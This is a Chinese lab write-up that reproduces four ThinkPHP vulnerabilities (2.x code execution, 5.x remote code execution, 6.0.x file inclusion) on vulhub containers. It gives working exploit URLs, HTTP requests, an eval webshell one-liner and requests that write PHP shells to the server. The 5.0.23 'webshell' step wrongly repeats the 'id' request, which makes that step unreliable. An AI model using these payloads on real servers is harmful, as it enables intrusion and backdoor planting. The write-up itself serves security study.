









使用 vulhub 复现的 Thinkphp 漏洞合集，包含 ThinkPHP 2.x 任意代码执行漏洞、ThinkPHP5 5.0.22/5.1.29 远程代码执行漏洞、ThinkPHP5 5.0.23 远程代码执行漏洞、ThinkPHP 多语言本地文件包含漏洞

## ThinkPHP 2.x 任意代码执行漏洞

在 ThinkPHP 2.x 版本中，框架使用 preg_replace 的 /e 模式匹配路由：

```php
./ThinkPHP/Lib/Think/Util/Dispatcher.class.php:102:            
$res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', 
implode($depr,$paths));
```

这个实现导致用户的输入参数被插入双引号中执行，造成任意代码执行漏洞。值得注意的是，ThinkPHP 3.0 版本在 Lite 模式下也存在这个漏洞，因为这个问题在该模式下并未被修复。

先使用了 preg_replace 的 /e 模式匹配路由，无论路由控制器方法存在与否都已经完成了代码执行。

### 环境搭建

执行如下命令启动 ThinkPHP 2.1 的 Demo 应用：

```bash
# 创建 docker-compose.yml 文件
cat << "YML" > docker-compose.yml
services:
 web:
   image: vulhub/thinkphp:2.1
   ports:
    - "8080:80"
YML

# 启动服务
docker compose up -d
```

环境启动后，访问 `http://your-ip:8080/Index/Index` 即可查看到默认页面。

### 漏洞复现

通过 URL 参数注入 PHP 代码来利用此漏洞。直接访问 `http://your-ip:8080/index.php?s=/index/index/name/${@phpinfo()}`，服务器将执行 phpinfo() 函数，证明远程代码执行漏洞利用成功：



蚁剑一句话木马 payload 

```php
/index.php?s=/a/b/name/${${@eval($_POST[1])}}
```



## ThinkPHP5 5.0.22/5.1.29 远程代码执行漏洞

Thinkphp 5.x 中，由于框架在处理 URL 路由和控制器名时未对用户输入进行严格过滤，导致攻击者在未开启强制路由的默认情况下可调用任意类和方法，进而执行任意 PHP 代码或系统命令。

受影响版本：

- ThinkPHP 5.0.0 - 5.0.22
- ThinkPHP 5.1.0 - 5.1.29

thinkphp 官方安全公告：https://www.thinkphp.cn/topic/60400.html

### 环境搭建

运行 ThinkPHP 5.0.20 版本：

```bash
# 创建 docker-compose.yml 文件
cat << "YML" > docker-compose.yml
services:
 web:
   image: vulhub/thinkphp:5.0.20
   ports:
    - "8080:80"
YML

# 启动服务
docker compose up -d
```

环境启动后，访问 `http://your-ip:8080` 即可看到默认的 ThinkPHP 启动页面。

### 漏洞复现

直接访问 `http://your-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1`，即可执行 phpinfo：



写入 webshell

```php
http://192.168.56.111:8080/?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][0]=echo '<?php phpinfo();' > `pwd`/a.php
```




## ThinkPHP5 5.0.23 远程代码执行漏洞

Thinkphp 5.0.23 以前的版本中，获取 method 的方法中没有正确处理方法名，导致攻击者可以调用 Request 类任意方法并构造利用链，从而导致远程代码执行漏洞。

影响版本：

- ThinkPHP 5.0.0 - 5.0.23

### 环境搭建

执行如下命令启动一个默认的 thinkphp 5.0.23 环境：

```bash
# 创建 docker-compose.yml 文件
cat << "YML" > docker-compose.yml
services:
 web:
   image: vulhub/thinkphp:5.0.23
   ports:
    - "8080:80"
YML

# 启动服务
docker compose up -d
```

环境启动后，访问 `http://your-ip:8080` 即可看到默认的 ThinkPHP 启动页面。


### 漏洞复现

发送数据包：

```http
POST /index.php?s=captcha HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
```



写入 webshell

```http
POST /index.php?s=captcha HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
```



## ThinkPHP 多语言本地文件包含漏洞

Thinkphp 6.0.13 版本及以前，存在一处本地文件包含漏洞。当多语言特性被开启时，攻击者可以使用 lang 参数来包含任意 PHP 文件。

虽然只能包含本地 PHP 文件，但在开启了 register_argc_argv 且安装了 pcel/pear 的环境下，可以包含 /usr/local/lib/php/pearcmd.php 并写入任意文件。

### 环境搭建

执行如下命令启动一个使用 ThinkPHP 6.0.12 版本开发的 Web 应用：

```bash
# 创建 docker-compose.yml 文件
cat << "YML" > docker-compose.yml
services:
 web:
   image: vulhub/thinkphp:6.0.12
   ports:
    - "8080:80"
YML

# 启动服务
docker compose up -d
```

环境启动后，访问 `http://your-ip:8080` 即可查看到 ThinkPHP 默认的欢迎页面。

### 漏洞复现

首先，ThinkPHP 多语言特性不是默认开启的，所以我们可以尝试包含 public/index.php 文件来确认文件包含漏洞是否存在：



如果漏洞存在，则服务器会出错，返回 500 页面。

文件包含漏洞存在的情况下还需要服务器满足下面两个条件才能利用：

- PHP 环境开启了 register_argc_argv
- PHP 环境安装了 pcel/pear

Docker 默认的 PHP 环境恰好满足上述条件，所以我们可以直接使用下面这个数据包来在写 shell.php 文件：

```http
GET /?+config-create+/&lang=../../../../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>+shell.php HTTP/1.1
Host: localhost:8080
```

如果服务器返回 pearcmd 的命令行执行结果，说明漏洞利用成功：



此时访问 http://your-ip:8080/shell.php 即可发现已经成功写入文件：

